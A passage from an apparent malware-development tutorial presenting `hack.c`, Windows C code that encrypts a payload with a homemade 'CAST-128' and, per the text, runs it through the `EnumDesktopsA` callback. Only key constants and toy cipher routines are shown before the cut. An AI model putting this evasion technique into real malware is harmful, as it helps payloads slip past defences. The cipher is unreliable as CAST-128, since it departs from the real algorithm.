 and the decrypted payload is executed using the `EnumDesktopsA` function.

The full source code is looks like this (`hack.c`):     

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

uint32_t key[4] = {0x01234567, 0x89abcdef, 0xfedcba98, 0x76543210};

// CAST-128 round functions (simplified for demonstration)
void f1(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib) & 0xFFFF); // ensure no overflow
  *d = (*d + f) & 0xFFFFFFFF;
}

void f2(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia + Ib + 1) & 0xFFFF); // avoid division by zero
  *d = (*d ^ f) & 0xFFFFFFFF;
}

void f3(uint32_t *d, uint32_t k) {
  uint32_t I = *d ^ k;
  uint32_t Ia = (I >> 16) & 0xFFFF;
  uint32_t Ib = I & 0xFFFF;
  uint32_t f = ((Ia - Ib) & 0xFFFF); // ensure no overflow
  *d = (*d ^ f) & 0xFFFFFFFF;
}

// key schedule for CAST-128
void cast_key_schedule(uint32_t* key, uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < ROUNDS; i++) {
    subkeys[i][0] = key[0];
    subkeys[i][1] = key[1];
    subkeys[i][2] = key[2];
    subkeys[i][3] = key[3];
  }
}

// CAST-128 encryption
void cast_encrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = 0; i < ROUNDS; i++) {
```
